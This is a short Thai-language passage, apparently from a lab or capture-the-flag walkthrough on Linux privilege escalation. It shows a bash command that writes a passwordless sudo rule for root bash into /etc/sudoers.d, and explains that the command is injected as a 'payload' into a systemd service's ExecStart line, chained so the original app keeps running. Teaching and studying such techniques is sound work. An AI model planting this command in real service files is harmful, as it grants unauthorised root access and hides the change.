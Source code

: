 ```bash
/bin/bash -c "echo 'server-admin ALL=(ALL) NOPASSWD: /bin/bash' | sudo tee /etc/sudoers.d/server_admin_as_root &&
```
  
![sudoedit](images/26.png)

📝 คำอธิบาย:

- echo 'server-admin ALL=(ALL) NOPASSWD: /bin/bash' สร้าง rule ใหม่ให้ sudo ใช้งาน bash โดยไม่ต้องใช้รหัสผ่าน
- sudo tee /etc/sudoers.d/server_admin_as_root บันทึก rule นี้ลงในระบบ
- ใช้ && ต่อท้ายเพื่อให้ระบบรันแอปเดิมต่อไปตามปกติ (ไม่ให้ระบบพัง)

> 🎯 นี่คือจุดที่เรา "ฝัง payload" เข้าไปใน Service ทำให้เมื่อ Service นี้ถูกรันอีกครั้ง (ด้วย systemctl) ระบบจะทำงานตามที่เราสั่ง (Privilege Escalation)

- อย่าลืมต่อท้าย ExecStart ด้วย app:app เพื่อให้บริการทำงานต่อได้

![sudoedit](images/27.png)
